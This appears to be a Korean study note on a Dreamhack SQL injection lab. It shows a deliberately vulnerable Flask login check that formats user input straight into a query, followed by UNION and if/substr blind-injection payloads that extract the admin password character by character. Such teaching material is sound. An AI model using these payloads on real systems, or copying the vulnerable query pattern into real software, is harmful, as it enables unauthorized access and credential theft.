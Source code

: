 ```py
  return pymysql.connect(host='localhost', user='dream', password='hack', db='dreamhack', charset='utf8')

@app.route('/' , methods=['GET'])
def index():
  username = request.args.get('username')
  sql = "select username from users where username='%s'" %username
  
  conn = getConnection()
  curs = conn.cursor(pymysql.cursors.DictCursor)
  curs.execute(sql)
  rows = curs.fetchall()
  conn.close()
  
  if(rows[0]['username'] == "admin"):
    return "True"
  else:
    return "False"

app.run(host='0.0.0.0', port=8000)
```

해당 코드를 보면, GET 요청에서 `username` 파라미터를 통한 SQL문의 결과로 `username` 컬럼이 반환되는데, 이 컬럼의 값이 `"admin"`인 경우만 `"True"`가 리턴된다.

그럼 해당 SQL 쿼리에 어떤 공격 기법을 활용해 볼 수 있을지 살펴보자.

### 1. UNION

```
/?username=' union select 'admin' --
```

위와 같이 `UNION` 구문을 통해 인자를 전달해서, SQL 쿼리 수행 결과의 `username` 컬럼에 `"admin"`이 포함되도록 할 수도 있다.

사실 `UNION` 없이 그냥 `username`에 바로 `admin`을 넣어도 되긴 한데, `UNION` 사용 예시를 위해 해당 방법을 강의에서 추가한 것 같다.

예를 들어서 만약 위와 같이 예제 코드를 모르는 경우, `union select 1,2,3`과 같이 컬럼 개수를 테스트해볼 수도 있을 것이다.

<br>

### 2. IF, SUBSTR

위에서는 admin 계정의 비밀번호를 알아내는 것까지는 불가능했지만, SQL에서 사용가능한 `if`와 `substr` 함수를 사용하면 admin 계정의 비밀번호를 알아낼 수 있다.

```
if(condition, true_value, false_value)

substr(string, start_position, length)
```

위는 sql의 `if`와 `substr` 함수의 기본형이다. 

`substr` 함수에서 `string`은 비교할 컬럼의 value, `start_position`은 비교 시작점(1부터 시작), `length`는 `string`에서 `=` 뒤의 문자와 비교할 길이이다.

`users` 테이블의 비밀번호를 저장하는 컬럼명이 `password`라고 할 때, 위 구문을 사용하여 비밀번호를 알아내는 쿼리를 작성하면 아래와 같다.

```
/?username=' union select
if(substr(password, 1, 1) = 'P', 'admin', 'not admin')
from users
where username = 'admin' -- - 
...

/?username=' union select
if(substr(password, 2, 1) = 'a', 'admin', 'not admin')
from users
```